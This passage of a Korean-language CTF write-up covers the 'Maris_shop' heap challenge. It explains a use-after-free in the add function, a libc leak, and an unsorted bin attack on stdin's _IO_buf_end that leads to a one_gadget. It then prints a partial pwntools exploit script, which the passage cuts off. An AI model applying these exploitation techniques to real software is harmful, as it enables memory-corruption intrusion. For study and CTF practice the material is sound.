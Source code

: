 이걸 이용해서 dummy chunk를 만들어 적당히 조작하니 libc leak을 할 수 있었다.
그 다음에는 unsorted bin attack을 해야한다. unsorted bin attack을 하려면 unsorted bin에 들어가 있는 chunk의 bk를 임의의 값으로 쓸 수 있어야 한다. Unsorted chunk야 libc leak을 하는 데 썼던 chunk와 그 포인터가 있으니 문제가 없는데 어떻게 값을 쓸 수 있을까? add함수에 답이 있다.

```
for (i = 0; i <= 0xF; ++i) {
  if (cart[i] && !strcmp(&cart[i]->name, &items[item_num - 1]->name)) {
    printf("Add more?:");
    cart[i]->amount += get_number();
    puts("Done!");
    return;
  }
}
```

추가하려는 item의 index를 입력받고 나면 모든 카트에 대해 선택한 아이템과 카트에 있는 아이템의 이름을 비교한다.
그 카트의 메모리가 free가 됐는 지 아닌 지는 확인하지 않는다. 아까 leak을 할 때 free한 unsorted chunk의 이름은 그대로 남아 있고,
위 코드에서 조작할 수 있는 값이 `cart[i]->amount`인데 이 변수가 chunk에서 bk 위치에 있기 때문에 이를 이용하면 된다. unsorted bin attack을 이용해서 stdin 구조체의 _IO_buf_end 포인터 값에 main_arena + 88를 overwrite하면 fgets함수에서 입력을 받을 때 stdin구조체의 여러 변수를 overwrite할 수 있어서 결국엔 one_gadget을 호출할 수 있다.

```
from pwn import *

stdin_buf_end_offset = 0x3c4920
vtable_offset = 0x3c36e0
one_gadget_offset = 0xf02a4  # 0x45216 0x4526a 0xf02a4 0xf1147

p = process('./Maris_shop', env={'LD_PRELOAD': './libc.so.6'})


def overflow():
    p.sendlineafter('Your choice:', str(1))
    p.recvuntil('---- ')
    price = int(p.recvuntil('\n', drop=True))
    p.sendlineafter('Which item?:', '1')
    p.sendlineafter('Amount?:', str(0xa0000000 / price))
    p.sendlineafter('Your choice:', '4')
    p.sendlineafter('Your choice:', '1')
    p.sendlineafter('Which item?:', '0')
    p.recvuntil('Done!\n\n')


def unsorted_bin_attack():
    p.sendlineafter('Your choice:', str(1))
    result = p.recvuntil('Which item?:').split('\n')
    del result[0]
    del result[-1]

    for item in result:
        if item_name in item:
            return item[0], result
    return None, result


def is_in_cart(result):
    null_idx = 1

    while True:
        for item in result:
            for item_in_cart in items_in_cart:
                if item_in_cart in item:
                    return null_idx
            null_idx = null_idx + 1
```
